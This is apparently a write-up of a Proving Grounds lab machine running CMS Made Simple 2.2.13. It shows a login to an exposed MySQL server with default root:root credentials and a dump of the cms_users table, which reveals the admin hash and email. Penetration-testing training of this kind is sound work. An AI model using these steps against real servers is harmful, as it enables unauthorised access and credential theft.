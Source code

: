## Web Enumeration ⤵️

I checked port 80 on browser and I got a CMS running on it which is `CMS Made Simple version 2.2.13` →

![Untitled](My-CMSMS/Untitled%201.png)

Lets check mysql server which is open on default port 3306 , tried it with `root : root` and I got in →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/MY-CMSMS]
└─$ mysql -h 192.168.171.74 -u root -p 
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 368
Server version: 8.0.19 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| cmsms_db           |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.169 sec)

MySQL [(none)]>
```
{: .nolineno}
{: .nolineno}
{: file='mysql'}

I got the admin credentials through it →

```sql
MySQL [cmsms_db]> select * from cms_users \G;
*************************** 1. row ***************************
      user_id: 1
     username: admin
     password: 59f9ba27528694d9b3493dfde7709e70
 admin_access: 1
   first_name: 
    last_name: 
        email: admin@mycms.local
       active: 1
  create_date: 2020-03-25 09:38:46
modified_date: 2020-03-26 10:49:17
1 row in set (0.166 sec)

ERROR: No query specified

MySQL [cmsms_db]>
```
{: .nolineno}
{: .nolineno}
